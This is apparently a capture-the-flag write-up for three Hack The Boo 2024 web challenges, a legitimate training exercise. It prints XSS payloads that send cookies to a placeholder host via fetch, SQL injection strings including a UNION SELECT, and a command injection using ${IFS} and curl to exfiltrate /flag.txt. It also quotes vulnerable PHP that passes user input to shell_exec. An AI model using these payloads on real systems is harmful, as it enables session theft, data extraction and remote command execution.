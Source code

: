 # Hack The Boo 2024 Write-Up

## WEB

### Phantom's Script

![image](https://github.com/user-attachments/assets/1d5b113b-039a-46ba-8470-0c8688fd03c4)

Basic XSS Payload:

`<script>alert('Boo!');</script>`

`<script>fetch('[host]')</script>`

More Diabolical Payload:

`<img src=x onerror="alert('Boo!')">`

`<img src=x onerror="fetch('[HOST]' + document.cookie)" />`

Use XSS payload `<script>fetch('[host]')</script>`

![image](https://github.com/user-attachments/assets/3bd034b8-1f32-4c04-9ebe-b96564676f02)

FLAG:

    HTB{xSS-1S_E4SY_wh4t_d0_y0u_th1nk?_5bae9bc761ca417e235b3b735ad26e1d}

### Unholy Union

![image](https://github.com/user-attachments/assets/65afbf7a-4d21-431c-98af-08696dc38732)

    ' OR '1'='1

![image](https://github.com/user-attachments/assets/8cd95fa3-2dc9-42a9-ae86-766d1c988a39)

Payload:

    A' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(flag) FROM flag) -- -

FLAG:

    HTB{uN10n_1nj3ct10n_4r3_345y_t0_l34rn_r1gh17?_5fa4eea67494d90a2d2ce205e7dbd1dd}

### Void Whispers

![image](https://github.com/user-attachments/assets/6f643e49-9634-49bb-9148-9c58915eaf9d)

Let's check source code of this application 

`IndexController.php`

    class IndexController
    {
      private $configFile = 'config.json'; 
      private $config;
    
      public function __construct() {
        if (file_exists($this->configFile)) {
          $this->config = json_decode(file_get_contents($this->configFile), true);
        } else {
          $this->config = array(
            'from' => 'Ghostly Support', 
            'email' => 'support@void-whispers.htb',
            'sendMailPath' => '/usr/sbin/sendmail',
            'mailProgram' => 'sendmail',
          );
        }
      }
    
      ... SNIP ...
      public function updateSetting($router)
      {
        $from = $_POST['from'];
        $mailProgram = $_POST['mailProgram'];
        $sendMailPath = $_POST['sendMailPath'];
        $email = $_POST['email'];
    
        if (empty($from) || empty($mailProgram) || empty($sendMailPath) || empty($email)) {
          return $router->jsonify(['message' => 'All fields required!', 'status' => 'danger'], 400);
        }
    
        if (preg_match('/\s/', $sendMailPath)) {
          return $router->jsonify(['message' => 'Sendmail path should not contain spaces!', 'status' => 'danger'], 400);
        }
    
        $whichOutput = shell_exec("which $sendMailPath");
        if (empty($whichOutput)) {
          return $router->jsonify(['message' => 'Binary does not exist!', 'status' => 'danger'], 400);
        }
    
        $this->config['from'] = $from;
        $this->config['mailProgram'] = $mailProgram;
        $this->config['sendMailPath'] = $sendMailPath;
        $this->config['email'] = $email;
    
        file_put_contents($this->configFile, json_encode($this->config));
    
        return $router->jsonify(['message' => 'Config updated successfully!', 'status' => 'success'], 200);
      }
    }

Try command injection payload!

We can craft a payload using ${IFS} to simulate spaces and inject a malicious command:

    /usr/sbin/sendmail;curl${IFS}https://[IP]?x=$(cat${IFS}/flag.txt)

We can use this payload via curl:

    curl${IFS}https://[IP-Address]?x=$(cat${IFS}/flag.txt)
